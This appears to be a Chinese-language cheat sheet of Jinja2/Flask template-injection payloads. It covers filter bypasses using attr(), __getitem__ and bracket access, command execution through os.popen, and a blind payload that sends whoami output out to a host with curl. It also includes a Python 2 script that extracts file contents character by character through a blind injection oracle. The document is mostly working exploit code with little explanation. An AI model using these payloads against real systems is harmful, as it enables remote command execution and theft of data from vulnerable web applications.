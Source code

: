 **过滤.**
.在payload中是很重要的，但是我们依旧可以采用attr()或[]绕过
举例
```python
正常payload：
url?name={{().__class__.__base__.__subclasses__[177].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("ipconfig").read()')}}`

使用attr()绕过：

{{()|attr('__class__')|attr('__base__')|attr('__subclasses__')()|attr('__getitem__')(177)|attr('__init__')|attr('__globals__')|attr('__getitem__')('__builtins__')|attr('__getitem__')('eval')('__import__("os").popen("dir").read()')}}

使用[]绕过：
可以用getitem()用来获取序号

url?name={{ config['__class__']['__init__']['__globals__']['os']['popen']('ipconfig')['read']() }}

其他：
''.__class__可以写成 getattr('',"__class__")或者 ’'|attr("__class__")
```

**过滤[]**
可以用getitem()用来获取序号

```python
"".__class__.__mro__[2]
"".__class__.__mro__.__getitem__(2)
```





绕过双大括号（dns外带）
```python
{% if ''.__class__.__bases__.__getitem__(0).__subclasses__().pop(250).__init__.__globals__.os.popen('curl http://127.0.0.1:7999/?i=`whoami`').read()=='p' %}1{% endif %}
```

python2下的盲注
python2下如果不能用命令执行，可以使用file类进行盲注
```python
import requests
url = 'http://127.0.0.1:8080/'
def check(payload):
    postdata = {
        'exploit':payload
        }
    r = requests.post(url, data=postdata).content
    return '~p0~' in r
password  = ''
s = r'0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ!"$\'()*+,-./:;<=>?@[\\]^`{|}~\'"_%'
for i in xrange(0,100):
    for c in s:
        payload = '{% if "".__class__.__mro__[2].__subclasses__()[40]("/tmp/test").read()['+str(i)+':'+str(i+1)+'] == "'+c+'" %}~p0~{% endif %}'
        if check(payload):
            password += c
            break
    print password
```
绕过 引号 中括号 通用getshell
